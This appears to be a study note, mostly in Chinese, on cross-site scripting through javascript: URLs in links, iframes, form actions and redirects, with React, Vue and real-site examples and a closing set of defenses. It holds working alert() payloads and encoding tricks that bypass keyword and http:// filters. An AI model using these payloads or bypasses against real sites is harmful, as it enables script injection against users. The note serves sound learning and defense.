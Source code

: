 ### where
1. href:  `<a href=javascript:alert(1)>Link</a>`  
2. iframe: `<iframe src=javascript:alert(1)></iframe>` 
3. form的action
```html
<form action=javascript:alert(1)>  
<button>submit</button>  
</form>
```
5. button的formaction
```html
<form id=f2>  
</form>  
<button form=f2 formaction=javascript:alert(2)>submit</button>
```
6. windows.location 
```html
window.location = 'javascript:alert(1)'
```

#### 例子1:插入youtube视频
如果網站上有個功能可以讓使用者在發文時填入 YouTube 影片網址，並且在文章中自動嵌入
```html
<iframe src="<?= $youtube_url ?>" width="500" height="300">
</iframe>
```
1. `javascript:alert(1);`
2. 绕过对youtube.com的检查：`javascript:alert(1);console.log('youtube.com')`
3. 防御：正確方式是檢查網址是否為 YouTube 影片的格式，並且要確保網址是以 `https://` 開頭

#### 例子2:profile 頁面填入自己的 blog  

![](media/Pasted%20image%2020231025155828.png)  

后端代码
```php
<a href="<?php echo htmlspecialchars($data) ?>">link</a>`
```
儘管把 `<>";` 都做了編碼，沒辦法新增標籤，也沒辦法跳脫雙引號新增屬性，但攻擊者依舊可以插入 `javascript:alert(1)`，因為這裡面完全沒有任何不合法的字元。

#### 例3：
`<a href="<?php echo htmlspecialchars($data) ?>">link</a>`

payload:
`data=javascript:alert(1)`
![](media/Pasted%20image%2020231103103012.png)  

#### React
現在的前端框架基本上都會自動幫你做好跳脫，沒有在 React 裡面使用 `dangerouslySetInnerHTML` 或是在 Vue 裡面使用 `v-html` 的話，基本上都是沒什麼問題的，但是 `href` 就不同了，理由同上，它的內容是沒問題的。

```react
import React from 'react';

export function App(props) {
  // 假設底下的資料是來自於使用者
  const href = 'javascript:alert(1)'
  return (
    <a href={href}>click me</a>
  );
}
```
\ React 在 v16.9 的時候有針對這個行為新增警告，在文件裡面也有說明：[Deprecating javascript: URLs](https://legacy.reactjs.org/blog/2019/08/08/react-v16.9.0.html#deprecating-javascript-urls)，警告的內容是：

> Warning: A future version of React will block javascript: URLs as a security precaution. Use event handlers instead if you can. If you need to generate unsafe HTML try using dangerouslySetInnerHTML instead.

在 React GitHub 的 issue 裡面也有更多的討論：

1. [React@16.9 block javascript:void(0); #16592](https://github.com/facebook/react/issues/16592)
2. [False-positive security precaution warning (javascript: URLs) #16382](https://github.com/facebook/react/issues/16382)
#### Vue
```vue
<script setup>
import { ref } from 'vue'

const link = ref('javascript:alert(1)')
</script>

<template>
  <a :href="link">click me</a>
</template>
```
 [URL Injection](https://vuejs.org/guide/best-practices/security.html#potential-dangers)
 
如果要在前端處理的話，有提到可以用 [sanitize-url](https://github.com/braintree/sanitize-url) 這一套 library。

### 页面跳转
```html
const searchParams = new URLSearchParams(location.search)
window.location = searchParams.get('redirect')
```
payload:
```
window.location = 'javascript:alert(document.domain)'
```

#### 例子：
![](media/Pasted%20image%2020231025161411.png)
点击登录后会调用`redirectToTarget` 的 function：
```Javascript
/**
 * Redirect to "?target=" or fallback URL with page reload.
 *
 * (works on CSR)
 */
export const redirectToTarget = ({
  fallback = 'current',
}: {
  fallback?: 'homepage' | 'current'
} = {}) => {
  const fallbackTarget =
    fallback === 'homepage'
      ? `/` // FIXME: to purge cache
      : window.location.href
  const target = getTarget() || fallbackTarget

  window.location.href = decodeURIComponent(target)
}
```
在拿到 target 之後直接使用了：`window.location.href = decodeURIComponent(target)` 來做重新導向。而 `getTarget` 其實就是去 query string 把 target 的值拿出來。所以如果登入的網址是：`https://matters.news/login?target=javascript:alert(1)`，在使用者按下登入並且成功之後，就會跳出一個 alert，觸發 XSS！
### `javascript`过滤
HTML 裡面的屬性內容是可以經過編碼的
`<a href="&#106avascript&colon;alert(1)">click me</a>`
`<a href=&#74;&#97;&#118;&#97;&#83;&#99;&#114;&#105;&#112;&#116;:alert(1)>clickme</a>`

### `http://`验证
`javascript:alert(http://)`


### 防御
1. 使用[sanitize-url](https://github.com/braintree/sanitize-url)
2. 只允許 `http://` 跟 `https://` 開頭的字串
3. 利用 JavaScript 去解析 URL,根据 protocol 判斷是否為合法的協議，來阻擋名單之外的內容
```javascript
console.log(new URL('javascript:alert(1)'))
/*
  {
    // ...
    href: "javascript:alert(1)",
    origin: "null",
    pathname: "alert(1)",
    protocol: "javascript:",
  }
*/
```
